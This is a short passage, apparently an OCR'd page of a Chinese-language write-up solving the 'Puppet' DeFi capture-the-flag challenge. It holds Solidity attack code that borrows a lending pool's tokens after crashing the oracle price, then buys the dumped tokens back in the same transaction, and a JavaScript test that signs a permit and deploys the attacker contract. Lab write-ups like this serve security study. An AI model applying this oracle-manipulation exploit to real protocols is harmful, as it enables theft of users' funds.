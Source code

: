 以下则通过质押进行borrow，并在同一笔交易内将“砸盘”的筹码买回！

```solidity
 		(bool suc, bytes memory response) = pool.staticcall(abi.encodeWithSignature(
            "calculateDepositRequired(uint256)", 
            poolToken));
        console.log(suc);
        
    	uint256 requiredETH = abi.decode(response,(uint256));
    	console.log("requiredETH");
    	console.log(requiredETH);

    	pool.functionCallWithValue(
            abi.encodeWithSignature
                ("borrow(uint256,address)", poolToken, msg.sender)
            ,
            requiredETH);
        
        swap.functionCallWithValue(
            abi.encodeWithSignature(
                "ethToTokenSwapOutput(uint256,uint256)", 
                playerToken,
                type(uint256).max
            ),
            10 ether + 1
        );
```

合约创建如`test/puppet/puppet.challenge.js`，先通过`getContractAddress`实现合约地址预先计算以实现签名，然后通过部署完成攻击！

```javascript
it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        
        const hacker = ethers.utils.getContractAddress({
            from: player.address,
            nonce: 0 
        });

        console.log("hackerAddress : " + hacker);
        console.log("swap : " + uniswapExchange.address);

        const { r, s, v } = await signERC2612Permit(
            ethers.provider,
            token.address,
            player.address,
            hacker,
        );

        await (await ethers.getContractFactory('HackerPuppet', player)).deploy(
            token.address,
            lendingPool.address,
            uniswapExchange.address,
            v,r,s,
            PLAYER_INITIAL_TOKEN_BALANCE,
            POOL_INITIAL_TOKEN_BALANCE,
            {value: 200n * 10n ** 17n,  gasLimit: '30000000',
        });

        console.log(await token.balanceOf(hacker));
    });

```
